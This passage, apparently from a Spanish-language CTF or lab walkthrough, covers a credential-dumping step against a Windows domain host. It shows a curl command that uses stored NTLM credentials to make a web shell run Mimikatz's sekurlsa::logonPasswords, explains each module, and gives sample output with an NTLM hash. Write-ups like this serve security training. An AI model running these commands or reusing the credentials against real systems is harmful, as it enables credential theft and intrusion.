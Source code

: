 **Paso 2: Ejecución de Mimikatz para Volcado de Credenciales**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=C:\Windows\Temp\m64.exe privilege::debug sekurlsa::logonPasswords exit 1> C:\Windows\Temp\01.txt" \
     https://10.1.0.6/ews/contact.aspx
```

**Comando de Mimikatz desglosado:**

1. **`privilege::debug`**
   - Habilita el privilegio SeDebugPrivilege
   - Permite acceder a procesos de otros usuarios
   - Necesario para leer memoria de LSASS
   - **Nota**: En este caso es redundante porque SYSTEM ya tiene este privilegio

2. **`sekurlsa::logonPasswords`**
   - Módulo de Mimikatz que lee credenciales de memoria LSASS
   - Extrae:
     - Nombres de usuario
     - Dominios
     - Hashes NTLM
     - Hashes LM (si están habilitados)
     - Contraseñas en texto claro (si están en memoria)
     - Tickets Kerberos

3. **`exit`**
   - Termina la ejecución de Mimikatz
   - Devuelve control al shell

4. **`1> C:\Windows\Temp\01.txt`**
   - Redirige la salida estándar (stdout) a un archivo
   - Guarda todos los resultados en `01.txt`

**Salida de Mimikatz (ejemplo):**

```
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonPasswords

Authentication Id : 0 ; 523801 (00000000:0007fda9)
Session           : Interactive from 1
User Name         : tous
Domain            : BOOMBOX
Logon Server      : DISKJOCKEY
Logon Time        : 10/19/2025 2:15:32 PM
SID               : S-1-5-21-3623811015-3361044348-30300820-1106
        msv :
         [00000003] Primary
         * Username : tous
         * Domain   : BOOMBOX
         * NTLM     : 9b7ff4cc0878bee9f099a4a7dc7227c3
         * SHA1     : 8c2e4fc3d8e1b5c9f2a3e4b1d6c7a8f9
        tspkg :
        wdigest :
        kerberos :
```